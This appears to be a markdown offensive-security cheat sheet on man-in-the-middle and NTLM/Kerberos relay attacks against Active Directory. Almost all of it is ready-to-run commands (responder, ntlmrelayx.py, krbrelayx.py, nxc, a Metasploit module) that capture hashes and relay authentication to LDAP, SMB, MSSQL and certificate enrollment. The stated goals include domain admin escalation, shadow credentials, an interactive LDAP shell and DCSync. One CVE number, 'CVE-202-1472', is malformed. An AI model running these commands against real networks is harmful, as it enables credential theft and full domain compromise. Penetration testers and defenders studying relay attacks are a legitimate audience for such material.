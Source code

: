 # Man In The Middle (Listen and Relay)

## Listen >>> Hash NTLMv1 or NTLMv2 || Username || Credentials (ldap/http) 
- `responder -l <interface> #use --lm to force downgrade`
- `smbclient.py`

## NTLM relay
- MS08-068 self relay @CVE@
  - `msf> exploit/windows/smb_smb_relay # windows 2000 / windows server 2008`

- SMB -> LDAP(S)
  - NTLMv1
    - remove mic (no CVE needed)  >>> see LDAP(S)
  - NTLMv2
    - Remove mic (CVE-2019-1040) @CVE@ >>> see LDAP(S)

- HTTP(S) -> LDAP(S)
  - Usually from webdav coerce >>> see LDAP(S)

- To LDAP(S)
  - Relay to LDAP if LDAP signing and LDAPS channel binding not enforced (default)
    - `ntlmrelayx.py -t ldaps://<dc_ip> --remove-mic -smb2support --add-computer <computer_name> <computer_password> --delegate-access ` >>> RBCD
    - `ntlmrelayx.py -t ldaps://<dc_ip> --remove-mic -smb2support --shadow-credentials --shadow-target '<dc_name$>'` >>> Shadow Credentials
    - `ntlmrelayx.py -t ldaps://<dc_ip> --remove-mic -smb2support --escalate-user <user>` >>> Domain admin
    - `ntlmrelayx.py -t ldaps://<dc_ip> --remove-mic -smb2support --interactive # connect to ldap_shell with nc 127.0.0.1 10111` >>> LDAP SHELL

- To SMB
  - Relay to SMB (if SMB is not signed)
    - Find SMB not signed targets (default if not a Domain controler)
      - `nxc smb <ip_range> --gen-relay-list smb_unsigned_ips.txt`
    - `ntlmrelayx.py -tf smb_unsigned_ips.txt -smb2support [--ipv6] -socks` >>> SMB Socks

- To HTTP 
  - Relay to CA web enrollement >>> ESC8
  - Relay to WSUS >>> WSUS

- To MsSQL
  - `ntlmrelayx.py -t mssql://<ip> [-smb2support] -socks` >>> MSSQL Socks

- SMB -> NETLOGON
  - Zero-Logon (safe method) (CVE-202-1472) @CVE@
    - Relay one dc to another
      - `ntlmrelayx.py -t dcsync://<dc_to_ip> -smb2support -auth-smb <user>:<password>` >>> DCSYNC

## Kerberos relay
- To HTTP
  - `krbrelayx.py -t 'http://<pki>/certsrv/certfnsh.asp' --adcs --template DomainController -v '<target_netbios>$' -ip <attacker_ip>` >>> ESC8
- SMB -> SMB
  - same as NTLM relay, use krbrelayx.py
- SMB -> LDAP(S)
  - same as NTLM relay, use krbrelayx.py
